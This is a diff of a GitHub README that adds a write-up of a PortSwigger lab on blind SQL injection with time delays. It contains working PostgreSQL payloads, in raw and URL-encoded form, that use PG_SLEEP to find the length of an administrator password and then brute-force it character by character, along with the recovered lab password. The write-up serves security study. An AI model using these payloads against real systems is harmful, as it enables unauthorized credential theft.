

Before and after one commit to horouuu/portswigger, a Markdown page: sql-injection/README.md, the part around the change. Shown at 84% size. Rendered like a GitHub page; pictures changed too: sql-injection/sleep-exfil-pwd-brute.png (added), sql-injection/sleep-exfil-pwd-len.png (added); blank space fills up the shorter version.

Commit message:
add 15 - sleep exfil

````diff
--- a/sql-injection/README.md
+++ b/sql-injection/README.md
@@ -570,3 +570,39 @@ The above did not work. However, eventually I tried:
 Which incurred a 10-second delay before getting the response from the server. This also means that the underlying DB was PostgreSQL.
 
 Upon checking the lab status, it was indeed finished. So, lab complete!
+
+---
+
+## 15. Blind SQL injection with time delays and information retrieval
+
+### Description
+Similar to [14](#14-blind-sql-injection-with-time-delays), but tasked to retrieve the user `administrator`'s password on top.
+
+### Solution
+First, I checked what version of SQL the server is running. It was PostgreSQL as `PG_SLEEP(10)` is what worked.
+
+Afterwards, I did a similar query to [12](#12-blind-sql-injection-with-conditional-errors), where I made the query short-circuit into a time-delay whenever a condition I wanted was fulfilled. I first used this to check the length of the password:
+> ```sql
+> SELECT CASE WHEN LENGTH(password)>{seq} THEN '' ELSE PG_SLEEP(10) END FROM users WHERE username='administrator'
+> >>>
+> '||(SELECT+CASE+WHEN+LENGTH(password)>{seq}+THEN+''+ELSE+PG_SLEEP(10)+END+FROM+users+WHERE+username%3d'administrator')+--+
+> ```
+
+<img src="./sleep-exfil-pwd-len.png" width=400>
+
+In the query, I set it to only trigger the time delay once we've broken the condition so that I'd only have to wait 10 seconds upon sucess. As shown in the image, the password has length 20, just like the previous questions.
+
+Now, similar to [12](#12-blind-sql-injection-with-conditional-errors), I brute-forced the password using the following query:
+> ```sql
+> SELECT CASE WHEN SUBSTR(password, {seq}, 1)='{char}' THEN PG_SLEEP(10) ELSE '' END FROM users WHERE username='administrator'
+> >>>
+> '||(SELECT+CASE+WHEN+SUBSTR(password,{seq},1)%3d'{char}'+THEN+PG_SLEEP(10)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')+--+
+> ```
+
+<img src="./sleep-exfil-pwd-brute.png" width=400>
+
+Sorting by response time, we can now find the 20 characters that make up the `administrator`'s password:
+
+> `2azn1z8799x671498qh5`
+
+Now we can log in and finish the lab!
````
Also changed, not shown: sql-injection/sleep-exfil-test.png (added), sql-injection/sleep-exfil.png (added).
